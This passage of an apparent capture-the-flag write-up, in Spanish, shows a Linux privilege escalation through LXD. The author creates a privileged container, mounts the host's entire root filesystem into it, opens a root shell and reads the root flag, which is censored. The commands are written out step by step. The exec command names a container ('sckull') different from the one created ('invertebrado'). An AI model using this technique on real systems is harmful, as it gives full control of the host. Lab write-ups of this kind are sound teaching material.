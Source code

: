 
Y finalmente ejecutamos lo siguiente:

```bash
sysadmin@ubuntu:~$ lxc init pwned invertebrado -c security.privileged=true
Creating invertebrado
```
```bash
sysadmin@ubuntu:~$ lxc config device add invertebrado miequipo disk source=/ path=/mnt/root recursive=true
Device miequipo added to invertebrado
```
Iniciamos el contenedor (en mi caso invertebrado)

```bash
sysadmin@ubuntu:~$ lxc start invertebrado
```
Y por último
```bash
sysadmin@ubuntu:~$ lxc exec sckull /bin/sh
~ #
```
Ya somos root!
```bash
~ # whoami
root
```
Podemos leer la flag dentro de ```/mnt/root/root/```

```bash
~ # cat /mnt/root/root/root.txt
K<***CENSORED***>j
```

